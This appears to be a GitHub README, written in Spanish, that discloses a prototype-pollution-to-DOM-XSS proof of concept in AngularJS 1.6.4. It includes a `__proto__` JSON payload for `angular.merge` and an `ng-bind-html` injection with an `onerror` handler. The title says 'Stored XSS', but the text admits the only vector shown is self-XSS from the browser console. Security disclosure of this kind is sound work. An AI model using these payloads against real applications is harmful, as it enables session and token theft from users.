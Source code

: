 # Prototype-Pollution-Stored-XSS-via-AngularJS-1.6.4
Este repositorio documenta una vulnerabilidad client-side que combina **Prototype Pollution** y **DOM-Based XSS** en una aplicación que utiliza **AngularJS v1.6.4**. La vulnerabilidad fue identificada y reportada como parte de una investigación educativa.


# 🧨 Prototype Pollution → Stored XSS via AngularJS 1.6.4

Este repositorio documenta una vulnerabilidad client-side que combina **Prototype Pollution** y **DOM-Based XSS** en una aplicación que utiliza **AngularJS v1.6.4**. La vulnerabilidad fue identificada y reportada como parte de una investigación educativa.

---

## 📚 Descripción

AngularJS 1.6.4 es vulnerable a **Prototype Pollution** a través de la función `angular.merge()`. Cuando un atacante puede modificar `Object.prototype` con propiedades como `innerHTML`, y estas propiedades se usan en combinaciones con `ng-bind-html` y `$sce.trustAsHtml`, se puede escalar a una ejecución arbitraria de código JavaScript en el navegador de la víctima (**XSS**).

---

## ⚙️ Tecnología afectada

- Framework: **AngularJS v1.6.4**
- Función: `angular.merge()`
- CVE asociado: [CVE-2019-10768](https://nvd.nist.gov/vuln/detail/CVE-2019-10768)
- Tipo de vulnerabilidad: `Prototype Pollution → DOM-Based XSS`
- Clasificación CWE:
  - [CWE-1321: Prototype Pollution](https://cwe.mitre.org/data/definitions/1321.html)
  - [CWE-79: Cross-Site Scripting](https://cwe.mitre.org/data/definitions/79.html)

---

## 🧪 Prueba de Concepto

### Paso 1 – Contaminación del Prototipo

js
angular.merge({}, JSON.parse('{"__proto__":{"innerHTML":"<img src=x onerror=alert(1337)>","polluted":"yes"}}'));

console.log({}.polluted); // imprime "yes"

Paso 2 – Activación del Sink (ng-bind-html)

angular.element(document.body).injector().invoke(
  ['$compile', '$rootScope', '$sce', function($compile, $rootScope, $sce) {
    $rootScope.test = { innerHTML: $sce.trustAsHtml('<img src=x onerror=alert(1337)>') };
    const el = angular.element('<div ng-bind-html="test.innerHTML"></div>');
    document.body.appendChild(el[0]);
    $compile(el)($rootScope);
    $rootScope.$digest();
  }]
);


✅ Se ejecuta alert(1337) confirmando la ejecución de JavaScript inyectado.

 Impacto

    Tipo de XSS: DOM-Based XSS

    Vector de entrada actual: Consola del navegador (self-XSS)

    Impacto potencial:

        Robo de cookies o tokens

        Secuestro de sesiones

        Phishing interno o inyección persistente si se encuentra un vector externo

📊 CVSS

CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
Base Score: 6.1 (Medium)

🔬 Posibilidades de explotación real

Actualmente el vector requiere acceso a consola (self-XSS). Sin embargo, si el atacante logra inyectar datos en algún punto donde se use angular.merge() (ej. parámetros, cookies, localStorage, APIs), esta vulnerabilidad puede escalar a:

    ✅ Stored XSS

    ✅ Reflected XSS

    ✅ Persistent client-side compromise

Se está investigando un vector de entrada automatizado.
📎 Reporte estilo HackerOne

Este hallazgo fue reportado al programa de recompensas de bugs de la NBA. La respuesta inicial lo clasificó como self-XSS, pero el exploit sigue siendo técnicamente válido como vulnerabilidad Prototype Pollution y demuestra un impacto potencial serio.

